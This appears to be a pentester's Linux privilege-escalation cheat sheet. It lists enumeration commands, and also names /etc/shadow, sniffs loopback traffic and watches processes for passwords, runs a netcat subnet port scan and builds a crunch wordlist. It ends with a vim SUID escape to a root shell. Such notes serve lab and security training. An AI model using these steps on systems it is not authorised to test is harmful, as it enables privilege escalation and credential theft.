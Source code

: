 ### Interesting locations
/etc/passwd
/etc/shadow
### Commands ###
Binaries: `find / -perm -4000 2>/dev/null` -> https://gtfobins.github.io/ 
`find / -perm -u=s -type f 2>/dev/null`` `find / -type f -perm -04000 -ls 2>/dev/null`
List local services: `ss -lnpt`
Local applications and services `ps aux | ps -ef | top | cat /etc/services`
Local applications run by root `ps aux | grep root`
List local ip adrreses `ip a`
Check environment variables `env` | `cat .bashrc`
Check known rules `cat /etc/iptables/rules.v4` 
Check known routes `routel` | `route`
Check OS version `uname -a` | `hostname` | /etc/issue /etc/os-release
Check SUDO privileges `sudo -l`
Check all cronjobs `ls -lah /etc/cron*` | `crontab -l` | `/etc/crontab`
Check installed DPKG packages `dpkg -l`
Check writeable folders `find / -writable -type d 2>/dev/null`
Check mounted filesystems  `cat /etc/fstab` | `mount`
Check available disks `lsblk`
Check loaded kernel modules `lsmod`
More information about module `/sbin/modinfo libata`
List services every second `watch -n 1 "ps -aux | grep pass"`
Capture traffic `sudo tcpdump -i lo -A | grep "pass"`
Check syslog `grep "CRON" /var/log/syslog`
Get capabilities `/usr/sbin/getcap -r / 2>/dev/null`
AppArmor `aa-status`

find . -writable -type d 2>/dev/null

### Quick worldist 
`crunch 6 6 -t Lab%%% > wordlist` 
We can do this by using the **crunch** command line tool to generate a custom wordlist. We'll set the minimum and maximum length to 6 characters, specify the pattern using the **-t** parameter, then hard-code the first three characters to **Lab** followed by three numeric digits.

### Quick Portscanner
Check all IP's if port 445 is open
`for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done`


### SUID Binaries:
vim.basic:
/usr/bin/vim.basic -c ':set shell=/bin/sh\ -p|shell'